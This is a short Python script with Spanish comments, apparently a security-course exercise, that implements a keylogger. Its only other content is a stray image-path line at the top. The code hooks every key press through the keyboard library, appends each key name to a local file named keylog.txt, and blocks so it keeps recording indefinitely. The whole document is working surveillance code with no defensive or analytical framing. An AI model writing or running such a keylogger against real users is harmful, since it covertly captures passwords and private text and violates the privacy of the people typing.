 # SI_T5_P1
import keyboard  


# Es la función que se encarga de guardar dichas teclas en el archivo.
def imprimir_tecla(key):

    with open("keylog.txt", "a") as file:

        if key.name == "space":
            file.write(" ")
        else:
            file.write(key.name)
# Acción para que se quede registrada la tecla pulsada.
keyboard.on_press(imprimir_tecla)
# Permite al keylogger seguir ejecutandose.
keyboard.wait()

